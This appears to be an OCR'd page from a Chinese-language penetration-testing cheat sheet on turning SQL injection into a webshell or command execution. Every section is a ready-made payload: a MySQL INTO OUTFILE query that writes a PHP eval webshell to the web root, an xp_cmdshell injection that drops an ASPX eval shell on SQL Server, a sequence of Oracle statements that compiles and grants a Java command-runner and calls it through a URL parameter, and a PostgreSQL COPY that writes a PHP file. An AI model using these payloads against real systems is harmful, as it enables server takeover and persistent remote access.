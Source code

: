    * 类型

     * MySQL

       ```sql
       select 0x3c3f70687020a6576616c28245f504f53545b615d293ba3f3e into outfile '/var/www/html/1.php'
       ```

     * SQLserver

       存储过程xp_cmdshell

       ```sql
       ;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > D:\\WWW\\2333.aspx' ;--
       ```

     * Oracle

       * 创建JAVA包

         ```sql
         select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
         ```

       * JAVA权限

         ```sql
         select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''begin dbms_java.grant_permission( ''''SYSTEM'''', ''''SYS:java.io.FilePermission'''', ''''<<ALL FILES>>'''',''''EXECUTE'''');end;''commit;end;') from dual;
         ```

       

       * 创建函数

         ```sql
         select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
         ```

       * URL执行

         ```sql
         id=602'||utl_inadd.get_host_name((select LinxRUNCMD('cmd /c dir d:/') from dual))--
         ```

       * postgresql

         ```sql
         COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
         ```
